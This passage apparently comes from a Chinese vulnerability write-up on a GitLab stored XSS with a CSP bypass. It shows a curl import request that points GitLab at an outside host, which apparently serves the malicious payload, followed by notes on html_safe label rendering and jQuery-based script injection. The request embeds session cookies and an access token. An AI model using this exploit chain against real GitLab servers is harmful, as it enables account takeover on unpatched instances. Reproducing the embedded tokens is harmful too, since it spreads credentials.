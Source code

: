     --header 'Cookie: perf_bar_enabled=true; preferred_language=en; hide_auto_devops_implicitly_enabled_banner_8=false; visitor_id=ae1ea916-faeb-458b-a6fe-e823e28e4946; frequently_used_emojis=smile%2Csmiley%2Cblush%2Cflag_wf%2Cman_dancing_tone3%2Cman_dancing_tone1; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqTmlOVE0zWkRnMExXWm1ZV0V0TkRrd1pTMDVORGswTFRJell6VTVaalJqWmpjek15ST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--e03f99e2fe31888f17b1a38192c53e1a7c6eebe7; sidebar_collapsed=false; BetterErrors-2.9.1-CSRF-Token=7ebd9970-0ce3-4b4f-b4d6-0a96114c3c57; known_sign_in=cC9DbkxsUmZZVG1EeGZ3bGhlQmVXQlVqWnVKQ2k1aklucEc1QmpXTjQrUTBYQ2M1c2l4K0J4czRxclRVekNmZmFSeVRKaGduYzJ4eEQxa2ZRUmhzWEdZeXV0VTdyd21pMnlkd3ltdExOYWlEeHVDUlNwMjdvTEVKQWNvaFZGdFotLS9TNTRJc3gwWEdtRTYxamFOWmhUU3c9PQ%3D%3D--33ef27c41f5b2d1b3b3f81b201525cb25ad31280; hide_auto_devops_implicitly_enabled_banner_6=false; event_filter=push; remember_user_token=eyJfcmFpbHMiOnsibWVzc2FnZSI6Ilcxc3hYU3dpSkRKaEpERXdKRWR6TjNCbWJIaERiM2hYYW1WelpFcEVMakppTnk0aUxDSXhOekF3TmpFMk56VXdMakU0TURVeE5ETWlYUT09IiwiZXhwIjoiMjAyMy0xMi0wNlQwMTozMjozMC4xODBaIiwicHVyIjoiY29va2llLnJlbWVtYmVyX3VzZXJfdG9rZW4ifX0%3D--d9f8a3d3facd1ae216b64bae4390ee38fd8cd5e2; _gitlab_session_07baa7241726843883bf7ec3444d875952c2c2a722793cb27890cede722617b2=bbe97137c1f77a28d631400fc209d6b4; _gitlab_session_07baa7241726843883bf7ec3444d875952c2c2a722793cb27890cede722617b2=42172205f2e8b1d7619454840d139af6' \
    --header 'Pragma: no-cache' \
    --header 'Referer: http://127.0.0.1:3000/root/final5' \
    --header 'Sec-Fetch-Dest: empty' \
    --header 'Sec-Fetch-Mode: cors' \
    --header 'Sec-Fetch-Site: same-origin' \
    --header 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' \
    --header 'X-CSRF-Token: gmIiPkGG+9ZjV7zsBfslb4QjfYZSFDSszxzQy2/+RcfCFZtow6G8uogwP2lpmW4PIWuywI71kwZ5Ezvbw802/g==' \
    --header 'X-Requested-With: XMLHttpRequest' \
    --header 'sec-ch-ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"' \
    --header 'sec-ch-ua-mobile: ?0' \
    --header 'sec-ch-ua-platform: "Windows"' \
    --header 'Content-Type: application/json' \
    --data '{"repo_id":721517979,"personal_access_token":"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","new_name":"final7","target_namespace":"root","github_hostname":"http://8.134.66.236"}'
    ```

#### Tips

1. 该漏洞输入后端渲染漏洞，本来后端渲染数据是通过默认的 haml 模板用=进行渲染，这时会自动完成对数据的 escape，但是这里的漏洞采用了函数调用返回 html 字符串的形式，并且字符串在函数中标注了`HTML.chomp.html_safe`。
   _app/views/shared/\_label_row.html.haml_
   ```
   .label-name.gl-flex-shrink-0.gl-mt-2.gl-mr-3
     = render_label(label, tooltip: false)
   ```
   _gitlab/app/helpers/labels_helper.rb#266_
   ```
   def render_label_text(name, suffix: '', css_class: nil, bg_color: nil)
       <<~HTML.chomp.html_safe
           <span
           class="#{css_class}"
           data-container="body"
           data-html="true"
           #{"style=\"background-color: #{bg_color}\"" if bg_color}
           >#{ERB::Util.html_escape_once(name)}#{suffix}</span>
       HTML
   end
   ```
   果然后端是 html_safe 引发的问题。这样，变量中的 xss 代码就能够被嵌入了。
2. csp 绕过利用了前端 jquery 的漏洞，主要 gitlab 前端会扫描后端返回的 html 并且对某些标签进行 jquery 化的处理，很多漏洞都来源于这种机制。要绕过严格的 csp 不是简单的事情，但是 jquery 配合`<script></script>`html 注入，就可能够绕过 self 这样严格的限制。简直是最大的 bug，到 2023 年 11 月都没有修复。
